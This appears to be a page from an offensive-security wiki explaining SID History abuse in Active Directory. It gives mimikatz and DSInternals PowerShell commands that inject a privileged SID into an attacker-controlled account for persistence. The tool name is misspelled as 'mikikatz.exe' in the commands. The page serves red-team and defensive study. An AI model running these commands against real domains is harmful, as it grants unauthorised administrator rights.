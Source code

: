 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# SID History

## Theory

The SID (Security Identifier) is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The SID history is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

This mechanism can also be abused as a means of persistence: adding the SID of a privileged account or group to the SID-History attribute of a controlled account grants rights associated with account/group of which the SID is added.

For instance, the SID of an account with Domain Admin rights can be added to a normal user SID History to grant them Domain Admin rights (the rights would not be granted per say, but the modified account would be treated as domain admin when checking rights).

## Practice

> [!CAUTION]
> There is currently no way to exploit this technique purely from a distant UNIX-like machine, as it requires some operations on specific Windows processes' memory.

### Pre-Windows 2016

Modifying the SID History attribute of an object can be done using mimikatz, with the [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch), [`sid::add`](https://tools.thehacker.recipes/mimikatz/modules/sid/add) and [`sid::lookup`](https://tools.thehacker.recipes/mimikatz/modules/sid/lookup) commands.

Mimikatz cannot be used on 2016+ domain controllers for that purpose, due to an error with [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch) ([https://github.com/gentilkiwi/mimikatz/issues/348](https://github.com/gentilkiwi/mimikatz/issues/348))

> [!WARNING]
> Mimikatz must be launched with at least enough privileges to perform the [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) command (i.e. domain admin or `SYSTEM`).

```powershell
# Generic command
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:UserRecievingTheSID /new:SIDOfTheTargetedUserOrGroup"

# Example 1 : Use this command to inject the SID of built-in administrator account to the SID-History attribute of AttackerUser
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:Builtin\administrators "

# Example 2 : Use sid::lookup to retrieve the SID of an account and inject it to the SID-History attribute of AttackerUser
mikikatz.exe "sid::lookup /name:InterestingUser"
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:SIDOfInterestingUser"
```

### Post-Windows 2016

The only known way to add a SID to the SID History attribute of an account on a Windows domain controller 2016 and above is to use the Powershell module [DSInternals](https://github.com/MichaelGrafnetter/DSInternals). This method also works for Pre-Windows 2016 domain controllers.

> [!CAUTION]
> The NTDS service must be stopped at some point and restarted for this procedure to work, which can cause various issues. Proceed with care, avoid production systems.

```powershell
# Install DSInternals on the domain controller
Install-Module -Name DSInternals

# Find the account SID you want to inject
Get-ADUser -Identity $InterestingUser

# Stop the NTDS service
Stop-service NTDS -force

# Inject the SID into the SID History attribute
Add-ADDBSidHistory -samaccountname AttackerUser -sidhistory $SIDOfInterestingUser -DBPath C:\Windows\ntds\ntds.dit

# Start the NTDS service
Start-service NTDS
```

## Resources

[https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory)

[https://attack.mitre.org/techniques/T1134/005/](https://attack.mitre.org/techniques/T1134/005/)

[https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)

[https://forum.winbatch.com/index.php?topic=1545.0](https://forum.winbatch.com/index.php?topic=1545.0)

[https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints](https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints)

[https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya](https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya)

[https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/](https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/)
